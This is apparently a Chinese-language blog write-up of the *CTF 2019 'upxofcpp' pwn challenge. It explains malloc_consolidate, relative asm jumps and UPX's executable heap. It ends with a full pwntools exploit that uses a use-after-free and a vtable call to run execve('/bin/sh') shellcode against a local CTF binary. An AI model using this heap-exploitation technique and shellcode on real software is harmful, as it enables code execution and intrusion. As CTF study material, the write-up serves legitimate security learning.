 ```yaml
---
title: Starctf2019_upxofcpp
date: 2019-05-03 22:29:58
tags:
---
```

非常有趣构思巧妙的一题..可能我tcl都没见过所以觉得巧妙..
<!--more-->
# start
比赛的时候没有做出来...
感觉这题好多不知道的东西...
# asm(jmp .+_n)
发现汇编还可以这样写...
学到了...可以`jmp .+0x10`表示跳当前地址+0x10.. 
可能是2字节或者5字节主要看n和符号例如`+0x81`和`-0x7e`
用到时候直接ipython试试
汇编没学好...感觉这个超灵活.shellcode可以不连续了...还可以往回跳..

# malloc_consolidate
简单了解了一下..这几天准备出题比较忙之后填坑...[seebug][1]
* 何时会触发 malloc_consolidate(仅对 _int_malloc 函数而言):small bins 尚未初始化&需要 size 大于 small bins
* malloc_consolidate 如何进行合并:遍历 Fastbins 中的 chunk, 设置每个 chunk 的空闲标志位为 0, 并合并相邻的空闲 chunk, 之后把该 chunk 存放到 unsorted bin 中.Fastbins 是单向链表, 可以通过  fastbin->fd 遍历 Fastbins.

这个函数简单来说就是整理`fastbin`能合并的合并放入`unsortedbin`
还没去啃源码但是发现在`free`一个`chunk`放入`top`chunk的时候会触发.

本来感觉也没啥..后来发现是`too young too navie ...` 

我做不出来一个是不知道上面的`asm(jmp .+_n)`还有一个点是..正常的放入`fast bin`+`add`操作无法使得`fd`可控但是在链中...（想了挺久的就是没办法）

`malloc_consolidate`的好处是往`fd&bk`上填了`main_arena+88`..
而`main_arena+0x8`是`last_remain`..其最开始的8字节属于刚被`malloc`的`chunk`所以可控
而且`main_arena+0x10`是`unsorted bin[0]`其最开始的8字节可控....
这就很巧妙地和上面的`asm(jmp .+_n)`结合起来...恰好可以一起完成exp..


# UPX
题目中是简单的 `./upx -d  binary`就可以脱壳放入`ida`看清逻辑
听主办方讲题的时候说这个版本的upx `heap`可执行虽然调的时候发现但是..做题一直拿着脱壳后的`binary`忽略了`heap`可执行感觉自己差太远...

# 思路
* uaf + vtable call to run shellcode

(思路.exp很巧妙....)

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice:",str(c))
def add(idx,size,data="-1"):
	cmd(1)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("ize:",str(size))
	p.sendlineafter("stop:",data)
def free(idx):
	cmd(2)
	p.sendlineafter("dex:",str(idx))
def show(idx):
	cmd(4)
	p.sendlineafter("dex:",str(idx))
context.log_level='debug'
p=process('./upxofcpp_raw')
context.arch='amd64'
sh=asm(shellcode)
data=u32(sh+'\x00'*2)
add(0,0x68/4)
add(1,0x68/4)
add(2,0x100/4)
free(0)
free(1)
free(2)
raw='''
xor rsi,rsi
xor rdx,rdx
xor rax,rax
mov al,0x3b
mov rdi,0x0068732f6e69622f
nop
push rdi
mov rdi,rsp
syscall
'''
#>0x80000000will crash so nop...
raw=asm(raw).ljust(0x30,'\x00')+asm('jmp .-0x30')
s=''
for x in range(0,0x38,4):
	s+=str(u32(raw[x:x+4].ljust(4,'\x00')))+"\n"
add(3,0x38/4,s)
#gdb.attach(p,'b *0x000555555555723')
free(1)
p.interactive()
```




[1]:https://paper.seebug.org/255/#5-last_remainder
